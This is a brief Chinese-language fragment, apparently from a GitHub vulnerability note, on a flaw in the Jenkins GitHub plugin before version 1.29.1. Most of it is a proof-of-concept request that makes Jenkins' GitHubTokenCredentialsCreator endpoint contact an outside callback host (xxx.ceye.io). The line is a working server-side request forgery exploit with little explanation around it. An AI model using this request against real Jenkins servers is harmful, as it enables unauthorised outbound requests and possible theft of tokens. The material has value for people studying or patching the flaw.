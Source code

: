 <languages   />

影響版本
--------

Jenkins GitHub插件小於1.29.1

利用的POC如下，其中user1為用戶名。

    /securityRealm/user/user1/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://xxx.ceye.io